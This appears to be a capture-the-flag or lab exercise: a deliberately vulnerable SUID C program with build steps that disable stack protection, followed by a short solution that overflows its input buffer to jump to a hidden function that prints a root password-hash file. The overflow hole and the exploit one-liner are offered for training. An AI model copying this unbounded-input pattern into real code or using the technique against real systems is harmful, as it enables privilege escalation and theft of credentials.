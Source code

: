 **Dated: 12 Jan 2021**\
**Filename: overspill.c**

On Kali box create vulnerable application by running: `gcc -fno-stack-protector -z execstack -no-pie -m32 -mpreferred-stack-boundary=2 overspill.c -o overspill.obj`\
Copy the `overspill.obj` to `Debian10 - 32bit`\
Chown it to root:root & give set the SUID bit set.\
"shadow_backup_sensitiveFile" will have the SHA512 hash of root.

```c
#include <stdio.h>                                                                                                                                          
#include <string.h>                                                                                                                                         
#include <stdlib.h>                                                                                                     
#include <sys/types.h>                                                                                                            
#include <unistd.h>                                                                                                                                         
                                
int main()                                                                                                                        
{                                                                             
int temp=0;                            
char userinput[23];                                                                                                                                         
printf("\n*** Welcome to Overspill software v2.0 ~ by MicrooSooft (° ʖ °)*** \n");                                                                                                                   
printf("\nCreation date: ~19Nov2020");                                                           
printf("\nPlease enter your input:");                                                                                                                       
scanf("%s",&userinput);                    
printf("Your input was -> %s\nNice Input, I liked it\nByeBye (｡◕‿◕｡)\n",userinput);                                                                                           


return 0;                                       
}                                               

void read_sensitive_file(void)                                                                   
{                                               
        printf("\nWTF!!! How the hell, did you get into this secret function\n");                                                                                                                  
        setuid(0);                                     
        setgid(0);                                     

        system("/bin/cat shadow_backup_sensitiveFile");
}
```

**Solution**
> 1. strings overspill.obj (can be skipped)
> 1. readelf -s ./overspill.obj | grep read (notedown the address)
> 1. python -c 'print("A"*35+"<address read_sensitive_file")' | ./overspill.obj

